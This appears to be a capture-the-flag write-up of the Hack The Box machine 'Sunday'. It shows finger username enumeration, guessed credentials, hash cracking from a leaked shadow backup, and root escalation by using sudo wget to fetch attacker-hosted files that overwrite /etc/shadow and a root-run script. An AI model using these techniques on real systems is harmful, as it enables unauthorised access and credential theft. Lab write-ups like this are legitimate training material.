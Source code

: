 ```yaml
---
title:     "Hack The Box - Sunday"
tags: [linux,medium,finger,wget,sudo,SUID]
categories: HackTheBox OSCP-Like
---
```


![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sunday/Untitled.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sunday/Untitled.png)

Getting Initial is by gathering usernames from Finger service and gusesing the password gives use user shell and We need to find backup shadow file to get user sammy's password and privilege escalation is by SUID.

Link: [https://www.hackthebox.eu/home/machines/profile/136](https://www.hackthebox.eu/home/machines/profile/136)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results

```
PORT      STATE  SERVICE VERSION
79/tcp    open   finger
111/tcp   open   rpcbind 2-4 (RPC #100000)
22022/tcp open   ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
```

## Finger Enumeration

### What is Finger?

**A finger service is running on this host. The finger protocol is used to find out information about users on a remote system. Finger servers can usually provide either a list of logged-in users or detailed information on a single user.**

I just downloaded finger-user-enum tool from [Github](https://github.com/pentestmonkey/finger-user-enum). 

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sunday/Untitled%201.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sunday/Untitled%201.png)

Here we can see a lot of usernames and only a few have pts and others are TTY

PTS connections are SSH connections

TTY are direct connections to the computer like reverse shell something.

## Getting User Shell

If I tried to login normally, it throws me some error and after adding this argument it worked perfectly. So I tried some default creds and I used the box name as password and Im logged in. `sunny : sunday`

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sunday/Untitled%202.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sunday/Untitled%202.png)

## Getting Sammy User Shell

The first thing I did is `sudo -l` and it shows me a binary located in root directory but I can't examine much of it.

```bash
sunny@sunday:~$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll
sunny@sunday:~$ sudo /root/troll
testing
uid=0(root) gid=0(root)
```

While checking through all the folders there is `shadow.backup` file in `/backup` directory and I got sammy user hash.

```bash
sunny@sunday:/$ ls
backup  boot   dev      etc     home    lib         media  net  platform  root   sbin    tmp  var
bin     cdrom  devices  export  kernel  lost+found  mnt    opt  proc      rpool  system  usr
sunny@sunday:/$ cd backup/
sunny@sunday:/backup$ ls
agent22.backup  shadow.backup
sunny@sunday:/backup$ cat shadow.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Cracked that using john and the password is `cooldude!`

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sunday/Untitled%203.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sunday/Untitled%203.png)

Tried to ssh with `sammy : cooldude!` and Im logged in.

```bash
root@kali:~/CTF/HTB/Boxes/Sunday# ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 sammy@10.10.10.76 -p 22022
Password: 
Last login: Tue Apr 24 12:57:03 2018 from 10.10.14.4
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sammy@sunday:~$ whoami
sammy
sammy@sunday:~$
```

## Privilege Escalation

Uploaded my enumeration script and it reveals me that `sudo -l` and it seems I can run `wget` as root without any password.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sunday/Untitled%204.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sunday/Untitled%204.png)

So I just created a hash using openssl 

```bash
root@kali:~/CTF/HTB/Boxes/Sunday# openssl passwd -1
Password: 
Verifying - Password: 
$1$9O207kaB$1arg8TyVn3Wuva8gQs.br1
```

And I copied my shadow file and changed the hash with the one I created.

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sunday/Untitled%205.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-sunday/Untitled%205.png)

Now I tried to overwrite the older one with mine and we need to mention `-O` in wget for the filename, otherwise it will be saved as `shadow1` since there is already a file that exists on that name.

```bash
sammy@sunday:/etc$ sudo /usr/bin/wget http://10.10.14.20:8000/shadow -O shadow
--14:33:07--  http://10.10.14.20:8000/shadow
           => `shadow'
Connecting to 10.10.14.20:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1,009 [application/octet-stream]

100%[=============================================================>] 1,009         --.--K/s             

14:33:08 (169.98 MB/s) - `shadow' saved [1009/1009]

sammy@sunday:/etc$ su root
Password: 
su: Password for user 'root' has expired
New Password: 
Re-enter new Password: 
su: password successfully changed for root
sammy@sunday:/etc# su root
sammy@sunday:/etc# whoami
root
```

Now I can do su to root with the new password. And here it says root password is expired and it asked for a new password so I just entered a new password and Im logged in.

### Another Method

We know there is a binary called `troll` which is located in `/root` directory and user sunny have permission to run that as root without any password, So I just made a small bash script that will copy the bash from `/usr/bash` and paste it in /tmp directory and make it SUID.

```bash
sammy@sunday:/root# sudo /usr/bin/wget http://10.10.14.20:8000/troll -O /root/troll 
--15:20:12--  http://10.10.14.20:8000/troll
           => `/root/troll'
Connecting to 10.10.14.20:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 61 [application/octet-stream]

100%[=======================================================================>] 61            --.--K/s             

15:20:13 (14.32 MB/s) - `/root/troll' saved [61/61]
```

Using wget I just replaced the older one, And we need to be quick here because there is some sort of cron running that replaces the file as fast as possible.

When I executed the binary it created the bash with SUID and I need to mention -p while running it because -p mentions run it as an effective user ID which is root.

```bash
sunny@sunday:/tmp$ sudo /root/troll
sunny@sunday:/tmp$ ls
bash  ogl_select254
sunny@sunday:/tmp$ ./bash -p
bash-3.2# whoami
root
bash-3.2#
```

We own the box